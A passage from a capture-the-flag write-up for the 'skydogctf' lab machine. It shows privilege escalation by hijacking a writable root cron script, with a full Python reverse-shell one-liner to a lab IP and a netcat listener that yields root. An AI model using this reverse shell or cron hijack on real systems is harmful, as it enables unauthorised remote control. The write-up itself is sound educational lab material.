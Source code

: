 Ah, the web content... and there's even a _/CongratulationsYouDidIt/_ folder which contains an mp4. It's a clip from the Karate Kid. Well, we're not done though are we? I plough on finding very little. Ok, so what can I write to on this stupid box?

```sourceCode
wernerbrandes@skydogctf:~$ find / -writable -type f 2> /dev/null | grep -v proc/lib
/log/sanitizer.py
/sys/fs/cgroup/systemd/user/1001.user/3.session/tasks
/sys/kernel/security/apparmor/.access
/home/wernerbrandes/.cache/motd.legal-displayed
/home/wernerbrandes/.selected_editor
/home/wernerbrandes/.profile
/home/wernerbrandes/.bashrc
/home/wernerbrandes/.bash_history
/home/wernerbrandes/.bash_logout
```

Oh, hello... what you got for me `/log/sanitizer.py`?

```Python
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

A root owned file that we can write to? Oh boy! Looks like it clears out the `/tmp` folder so there's a good change this runs on a crontab. I can make use of this.

Let's see if the installed python can get us a reverse shell

```sourceCode
wernerbrandes@skydogctf:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And success :) Now to make root do that for me. I put the above into the sanitizer script and open a listener on my box and wait.... shortly after

```sourceCode
root@kali:~/skydog# nc -lvn -p 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 53160
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Now, the flag's probably in here somewhere.

```sourceCode
# ls
BlackBox
# file BlackBox
BlackBox: directory
# cd BlackBox
# ls
flag.txt
# cat flag.txt
flag{b70b205c96270be6ced772112e7dd03f}

Congratulations!! Martin Bishop is a free man once again!  Go here to receive your reward.
/CongratulationsYouDidIt#
```
